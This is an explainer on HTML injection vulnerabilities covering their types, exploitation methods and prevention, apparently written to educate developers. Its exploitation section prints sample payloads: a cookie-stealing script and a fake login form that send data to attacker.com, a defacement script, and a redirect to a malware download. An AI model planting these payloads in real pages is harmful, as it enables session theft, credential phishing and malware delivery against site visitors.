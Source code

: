 HTML Injection is a type of web security vulnerability that occurs when an attacker is able to inject arbitrary HTML code into a web application. This can lead to various malicious activities, including Cross-Site Scripting (XSS), data theft, and manipulation of the web page's content. HTML injection exploits the trust a user has in a web application by allowing the attacker to alter the content displayed to users.

### Key Characteristics of HTML Injection

1. **User Input Manipulation**: HTML injection typically occurs when user input is not properly validated or sanitized before being rendered on a web page. Attackers can exploit this by submitting malicious HTML code.

2. **Client-Side Execution**: The injected HTML is executed in the user's browser, which can lead to various attacks, including XSS, phishing, and session hijacking.

3. **Lack of Output Encoding**: If the application fails to encode output properly, it may render the injected HTML as executable code rather than displaying it as plain text.

### Types of HTML Injection

1. **Stored HTML Injection**:
   - The injected HTML code is stored on the server (e.g., in a database) and served to users when they access the affected page.
   - **Example**: An attacker submits a comment containing malicious HTML. When other users view the comment, the HTML executes in their browsers.

2. **Reflected HTML Injection**:
   - The injected HTML code is reflected off the server and executed immediately without being stored.
   - **Example**: An attacker crafts a URL that includes malicious HTML as a query parameter. When a victim clicks the link, the server reflects the HTML back in the response.

3. **DOM-based HTML Injection**:
   - This occurs when client-side scripts modify the Document Object Model (DOM) in a way that allows the execution of injected HTML. The attack does not involve the server.
   - **Example**: A web application uses JavaScript to read data from the URL and inject it into the page without proper sanitization.

### Exploitation Methods

Attackers can exploit HTML injection vulnerabilities using various methods:

1. **Session Hijacking**:
   - By injecting HTML that captures cookies or session tokens, an attacker can impersonate a user. For example, the script can send the captured data to the attacker's server.

   ```html
   <script>
       var img = new Image();
       img.src = "http://attacker.com/steal?cookie=" + document.cookie;
   </script>
   ```

2. **Phishing**:
   - An attacker can create a fake login form that appears on a legitimate site. When users enter their credentials, the attacker captures them.

   ```html
   <form action="http://attacker.com/steal" method="POST">
       <input type="text" name="username" placeholder="Username">
       <input type="password" name="password" placeholder="Password">
       <input type="submit" value="Login">
   </form>
   ```

3. **Defacement**:
   - Attackers can inject HTML that modifies the content of a webpage, displaying their own messages or images.

   ```html
   <script>
       document.body.innerHTML = "<h1>Hacked by Attacker</h1>";
   </script>
   ```

4. **Malware Distribution**:
   - An attacker can use HTML injection to redirect users to malicious sites or download malware.

   ```html
   <script>
       window.location.href = "http://malicious-site.com/malware.exe";
   </script>
   ```

### Prevention Measures

To protect against HTML injection vulnerabilities, developers should implement the following strategies:

1. **Input Validation and Sanitization**:
   - Validate and sanitize all user inputs to ensure they do not contain malicious HTML. Use libraries or frameworks that provide built-in protection against HTML injection.

2. **Output Encoding**:
   - Encode data before rendering it in the browser. This ensures that any potentially harmful characters are treated as plain text rather than executable code.

3. **Content Security Policy (CSP)**:
   - Implement a CSP to restrict the sources from which scripts can be loaded. This can help mitigate the impact of HTML injection attacks.

4. **Use HTTPOnly and Secure Flags**:
   - Set the `HTTPOnly` flag on cookies to prevent JavaScript from accessing them. Use the `Secure` flag to ensure cookies are only sent over HTTPS.

5. **Regular Security Audits**:
   - Conduct regular security assessments and code reviews to identify and remediate HTML injection vulnerabilities.

### Conclusion

HTML Injection is a significant web security vulnerability that can lead to various attacks, including XSS and data theft. Understanding the characteristics, types, and methods of exploitation is crucial for developers and security professionals. By implementing robust security measures, organizations can protect their applications and users from HTML injection attacks.